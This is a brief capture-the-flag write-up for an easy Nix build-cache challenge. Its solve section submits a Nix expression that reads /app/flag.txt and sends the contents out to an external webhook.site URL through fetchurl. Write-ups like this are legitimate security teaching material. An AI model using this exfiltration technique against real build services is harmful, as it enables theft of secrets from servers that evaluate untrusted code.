 ## About

Author: `mbund`

`misc` `easy`

CTF challenge based on a public Nix build cache.

> Well clearly this isn't nothing...

## Name

Nix is sort of a normal informal English word. Other possibilities were zero, zilch and zip.

## Solve

Upload the following nix expression to the build service (you don't even need to use the cache).

```
http localhost:3000/build expression=@solve.nix
```

```nix
let
  pkgs = import <nixpkgs> {};
in
  pkgs.fetchurl {
    url = "https://webhook.site/abdf5075-d1cd-4218-96b0-4e5b341dc2e1/${builtins.replaceStrings ["{" "}"] ["%7B" "%7D"] (builtins.readFile /app/flag.txt)}";
  }
```
